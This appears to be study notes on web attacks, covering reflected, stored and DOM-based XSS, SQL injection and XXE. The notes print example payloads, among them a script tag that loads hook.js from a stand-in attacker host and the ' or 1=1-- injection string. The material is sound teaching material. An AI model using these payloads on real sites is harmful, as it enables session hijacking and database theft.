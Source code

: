 An attack where the malicious input comes from a crafted link is a reflected or nonpersistent XSS attack.\
A stored/persistent XSS attack aims to insert code into a back-end database or content management system used by the trusted site. 
-  For example, the attacker may submit a post to a bulletin board with a malicious script embedded in the message. When other users view the message, the malicious script is executed. For example, with no input sanitization, a threat actor could type the following into a new post text field:
Users viewing the post will have the malicious script hook.js execute in their browser.
   ```js
   Check out this amazing
   <a href="https://trusted.foo">website</  a><script src="https://badsite.foo/hook.js"></script>.
   ``` 

A third type of XSS attack exploits vulnerabilities in client-side scripts. Such scripts often use the Document Object Model (DOM) to modify the content and layout of a web page. For example, the "document.write" method enables a page to take some user input and modify the page accordingly. An exploit against a client-side script could work as follows:
- The attacker identifies an input validation vulnerability in the trusted site. For example, a message board might take the user's name from an input text box and show it in a header.
>    https://trusted.foo/messages?user=james
- The attacker crafts a URL to modify the parameters of a script that the server will return, such as:
>  https://trusted.foo/messages?user=James%3Cscript%20src%3D%22https%3A%2F%2Fba
- The server returns a page with the legitimate DOM script embedded, but containing the parameter:
```js
 James<script src="https://badsite.foo/hook.js"></script>
```
- The browser renders the page using the DOM script, adding the text "James" to the header, but also executing the hook.js script at the same time.

## SQL
A web application is likely to use Structured Query Language (SQL) to read and write information from a database. The main database operations are performed by SQL statements for selecting data (SELECT), inserting data (INSERT), deleting data (DELETE), and updating data (UPDATE). In a SQL injection attack, the threat actor modifies one or more of these four basic functions by adding code to some input accepted by the app, causing it to execute the attacker's own set of SQL queries or parameters. If successful, this could allow the attacker to extract or insert information into the database or execute arbitrary code on the remote system using the same privileges as the database application (owasp.org/www-community/attacks/SQL_Injection).

For example, consider a web form that is supposed to take a name as input. If the user enters "Bob", the application runs the following query:
> SELECT * FROM tbl_user WHERE username = 'Bob'

If a threat actor enters the string ' or 1=1-- and this input is not sanitized, the following malicious query will be executed:

> SELECT * FROM tbl_user WHERE username = '' or 1=1--'

The logical statement 1=1 is always true, and the -- string turns the rest of the statement into a comment, making it more likely that the web application will parse this modified version and dump a list of all users.

## XML(Extensible Markup Language) Injection
It is used by apps for authentication and authorizations, and for other types of data exchange and uploading. Data submitted via XML with no encryption or input validation is vulnerable to spoofing, request forgery, and injection of arbitrary data or code. For example, an XML External Entity (XXE) attack embeds a request for a local resource (owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing).
